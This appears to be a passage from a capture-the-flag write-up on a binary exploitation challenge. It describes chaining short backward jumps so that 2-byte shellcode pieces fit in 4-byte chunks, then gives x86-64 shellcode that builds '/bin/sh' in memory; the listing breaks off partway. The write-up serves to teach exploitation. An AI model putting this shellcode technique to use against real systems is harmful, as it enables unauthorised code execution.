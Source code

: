 We will write a `eb 89` instruction at the point we land to perform a backward jump. Then, we identify the landing point of this jump and write another `eb 89` there. Continuing this 5 or 6 times, we can go back enough to be able to fit our shellcode in the gaps between.

```
start_main_shellcode <--
...                    |
...                    |
...                    |
[eb 89] <--    ---------
...       |
...       |
...       |
[eb 89] ---
...
same pattern...
...
[eb 89] -> landing point for the vulnerable jump

```

In the diagram above, the `...` are blocks that can contain our main shellcode.

### main shellcode

Since we only control small 4-bytes chunks, we need to split our main shellcode into 4-byte pieces. In each chunk, we can only fit at most 2 bytes of shellcode, before requiring a jump to the next chunk (with the `eb 09` instruction, or `eb 16` in case we want to jump two blocks forward to jump over one of the backward jumps that were previously explained).


With this 2 byte constraint, we needed to find a way to place `/bin/sh` into memory and move it's address into `rdi`.
Placing a breakpoint right before our shellcode was executed,
we noticed that before the shellcode is executed, the`rbx` register holds a pointer to some writable address in memory.
So we could move this address into rdi, and then write the `/bin/sh` string byte-by-byte into the location `rbx` points to with only 2 byte instructions.

This is the final shellcode:

```
.intel_syntax noprefix
.global _start

_start:
# write "/bin/sh" onto the stack
push 0x00
push 0x68
push 0x73
push 0x2f
push 0x6e
push 0x69
push 0x62
push 0x2f

push rbx
pop rdi

# copy "/bin/sh" into some writable location
pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl
```